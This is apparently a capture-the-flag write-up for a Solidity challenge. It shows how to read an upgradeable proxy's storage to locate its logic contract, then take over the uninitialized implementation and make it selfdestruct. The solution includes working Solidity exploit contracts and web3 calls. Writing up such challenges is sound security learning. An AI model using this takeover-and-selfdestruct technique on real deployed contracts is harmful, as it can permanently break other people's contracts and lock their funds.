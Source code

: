 > Would you be able to selfdestruct its engine and make the motorbike unusable ?

## Locating the implementation

The storage layout matches the `Engine` contract:

```js
await web3.eth.getStorageAt(contract.address, 0, (e,d)=>{console.log(d)});
'0x000000000000000000003a78ee8462bd2e31133de2b8f1f9cbd973d6edd60001'
await web3.eth.getStorageAt(contract.address, 1, (e,d)=>{console.log(d)});
'0x00000000000000000000000000000000000000000000000000000000000003e8'
```

`0x0001` are the `initialized` and `initializing` properties from the [`Initializable` base contract][contract-initializable].

These are bundled with the `upgrader` address, `0x3a78ee8462bd2e31133de2b8f1f9cbd973d6edd6`.
And finally 

I espected to find the `_IMPLEMENTATION_SLOT` in the first slot, but it is a `constant`.
It means that this variable will be replaced with its value directly in the bytecode.
There is no storage slot allocated for constants.

And now the logic contract is located at:

```js
await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc', (e,d)=>{console.log(d)});
// '0x0000000000000000000000001dcdd5d9a47e4a8773e3e28020b53cea559baefd'
```

## Re-initializing

The proxy does a `delegatecall` to `initialize`, which means it uses its storage.
Since `initialized` is set to 1, it cannot be called again from the proxy.

However, the logic contract has it set to `false`!

```js
await web3.eth.getStorageAt('0x1dcdd5d9a47e4a8773e3e28020b53cea559baefd', 0, (e,d)=>{console.log(d)});
// '0x0000000000000000000000000000000000000000000000000000000000000000'
```

So it can be reset from another contract:

```solidity
contract Garage {
    function downgrade(address target, address junk) public {
        Engine(target).initialize();
        Engine(target).upgradeToAndCall(junk, abi.encodeWithSignature("water()"));
    }
}
```

And point the implementation to a kamikaze contract:

```solidity
contract Tank {
    function water() external {
        selfdestruct(payable(0x0));
    }
}
```

Since it is called with delegate privileges, the logic contract suicides.

[contract-initializable]: https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol
